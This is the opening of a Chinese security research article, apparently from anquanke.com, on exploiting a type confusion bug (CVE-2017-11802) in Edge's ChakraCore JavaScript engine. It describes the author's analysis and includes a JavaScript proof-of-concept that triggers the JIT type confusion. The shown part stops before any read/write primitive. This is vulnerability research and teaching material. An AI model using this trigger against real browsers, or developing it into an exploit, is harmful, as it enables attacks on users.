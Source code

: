 > 原文链接: https://www.anquanke.com//post/id/98774 


# Edge Type Confusion利用：从type confused到内存读写


                                阅读量   
                                **234644**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0129ad18acd5e9878d.png)](https://p1.ssl.qhimg.com/t0129ad18acd5e9878d.png)

> 本篇原创文章参加双倍稿费活动，预估稿费为1000元，活动链接请点[此处](https://www.anquanke.com/post/id/98410)

### 传送门：[Edge Type Confusion利用：从内存读写到控制流程](https://www.anquanke.com/post/id/98775)

最近分析的ChakraCore的漏洞比较多，其中一个来源是project zero的公开issue。因此也有一些心得，个人感觉去年Chakra漏洞的集中爆发点是各种的type confusion漏洞，比如Proxy特性处理不当的、JIT优化不当的、 ImplicitCall处理不当的等等。去年11月POC2017上有一个议题《1-Day Browser &amp; Kernel Exploitation》正好是讲ChakraCore type confusion利用的，恰巧其中提及的漏洞我都有调试过。<br>
之前在调试这些漏洞时有说过要写关于这些漏洞的exp，恰巧可以以这个议题以及调试过几个漏洞为例来说明一下利用过程。

关于浏览器type confusion的利用个人感觉公开的资料其实不多，之前holy nop师傅有分享过一篇CVE-2016-7201的利用，也就是在《The Secret of ChakraCore》议题中提到的，但是没有exp代码所以细节比较模糊，此外就没有什么资料了。其实个人感觉chakra里面type confused利用与OOB利用大同小异都是围绕DataView或者TypedArray进行的，比较不同的在于如何构造对象能够正常读写、如何保证构造的对象不会crash的过程。<br>
但是对于Chakra不太了解的同学可能不太容易直接通过网上现有的一些资料看懂利用的原理，这里我比较详细的给大家分享一下操作过程。



## 关于漏洞

这个漏洞利用的对象是CVE-2017-11802，这个漏洞我之前有写过分析，这里再简单描述一下

```
function main() `{`

        let arr = [1.1, 1.1];

        function opt(f) 
        `{`
            arr[0] = 1.1;
            arr[1] = 2.3023e-320 + parseInt('ab'.replace('a', f));//0x1234
            return 1;
        `}`

        for (var i = 0; i &lt; 1000; i++)
            opt('b');

        function exp()`{`
            arr[0] = `{``}`;
            return '0';
        `}`

        opt(exp);

        //trigger exception
        print(arr[1]);
    `}`
    main();
```
